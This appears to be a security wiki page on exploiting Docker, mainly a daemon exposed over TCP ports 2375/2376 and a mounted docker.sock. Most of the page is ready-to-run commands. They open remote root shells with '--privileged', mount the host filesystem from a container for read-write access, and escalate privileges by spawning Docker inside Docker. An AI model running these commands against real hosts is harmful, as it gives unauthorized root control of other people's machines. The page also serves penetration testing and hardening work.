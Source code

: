 ```yaml
---
title: Docker
description: Tactics, techniques, and procedures (TTPs) observed and tested in the wild on the exploitation of the Docker application
published: true
date: 2021-01-21T04:40:49.925Z
tags: docker, exploit, privilege-escalation, miscofiguration
editor: markdown
dateCreated: 2021-01-21T04:37:56.706Z
---
```


# Docker Exploitation

init by: Caprico (additions welcome)

Docker Client Documentation: https://docs.docker.com

## Intent

This page will discuss different tactics, techniques, and procedures (TTPs) observed and tested in the wild on the exploitation of the Docker application  

## Background

A virtual machine: This is a machine within a machine. VirtualBox, VMware, HyperV and other platforms are used to make a machine within a machine. Hard drives, operating systems, ram allocations and all.

A container: This shares the kernel of the operating system to run basically alongside of the host processes. i.e., ‘Docker run a webserver but don’t allocate 20 gbs of space and just pipe the logs from the server into my log directory in my home directory’.

### Docker Socket Vulnerability

When you’re installing Docker you’re actually installing a daemon socket onto your system that talks to the kernel over a `tcp://` call. By default, this is setup with either ports 2375 (unencrypted) or 2376 (tls encrypted traffic). This is otherwise known as the docker socket. This socket handles all the API requests that a Docker client makes to the machine. For example, it will send to your internal socket the command `docker ps -a` and show you all of the running containers and subsequent information. At this point this is only going to be accessible to the local machine.

So, let’s say a web developer Bob decides that he want’s to run his applications in a cloud environment and have everything running on docker. Well, you could just ssh into the box install docker and install the apps to run in their own containers. But to streamline product releases he decides to expose the docker daemon to the internet so he can run commands on it from his home office. (`docker -H tcp://<some IP>:2375 …`)  This is where the vulnerability is…Tenable calls it ‘Docker Daemon Publicly Accessible’ (or something like that). I call it opening a shell up to the internet for anyone to connect to as root…Let’s break it down.

Figure 1:

Running a container on a local machine:

`docker run -it ubuntu:latest`

Running a container with elevated privileges on your local machine:

`docker run -it –privileged ubuntu:latest`

Running a container on someone else’s machine with elevated privileges:

`docker -H <someone else’s IP>:<port> run -it –privileged ubuntu:latest`

There it is…that is the vulnerability. A gross misconfiguration of the Docker daemon that exposes it to the internet (or intranet of a company) if put into a cloud environment or allowed egress. Also with the  `--privileged` flag you’re given root access to the container which can be used in a plethora of privilege escalation attacks.

## Exposed Docker Socket exploitation


### Getting a shell

```
docker run -H tcp://<some_ip>:<port> -it --entrypoint="/bin/sh" alpine
```
Simply creates a container onto a host exposing the docker daemon over TCP.

### Getting a privileged shell


```
docker run -H tcp://<some_ip>:<port> -it --privileged --entrypoint="/bin/sh" alpine
```
Add `--privileged` tag to the above script to allow for all capabilities to be enabled.

A list of which can be found here: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities

### Mount Host File System To Containers

***!!! WARNING !!! If you do not know what you are doing you can cause damage to the host machine. Use Caution!***  


First run a privileged container running alpine.

**Remote:**
```
docker run -H tcp://<some_ip>:<port> -it --privileged --entrypoint="/bin/sh" alpine
```

**Local:**
```
docker run -it --privileged --entrypoint="/bin/sh" alpine
```

Next you'll be greeted with the shell that's running in alpine that is running as the `root (#)` user.

**Create a folder to mount host file system**
```
# mkdir /media/host-mnt
```

**Check for drive names**
```
# df -a
```

*Examples: /dev/sda1, /dev/nvme0, /dev/hdd0*

**Mount the Host FS**

```
# mount -a /dev/<drive> /media/host-mnt && cd /media/host-mnt && ls -lash
```


This should (pardoning any errors with mount or resources being busy) give you read write access to the host's filesystem.

### Docker container within Docker running Docker

Docker Hub Src: https://hub.docker.com/_/docker

Recently Docker released an image on dockerhub that is Docker running itself.

(As weird as that sounds...)

This leads to an interesting privesc vulnerability.

Say you're on a box but don't have access to root and see that you can create unpriviledged containers. (Research this...)

You can create your own docker daemon install that runs on the same socket as the host.

```
$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock docker:latest
```

This opens up a docker container that has docker installed that can create images using the same docker daemon (or socket if exploiting remote).

Once you create the container you should be running as root and can create privileged containers from within an **unpriviledged** container. (idk why people think this is okay.)

```
# docker run -it --privileged alpine
```

Now you have a root shell running in a container that has all of the capabilities enabled as referenced here: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
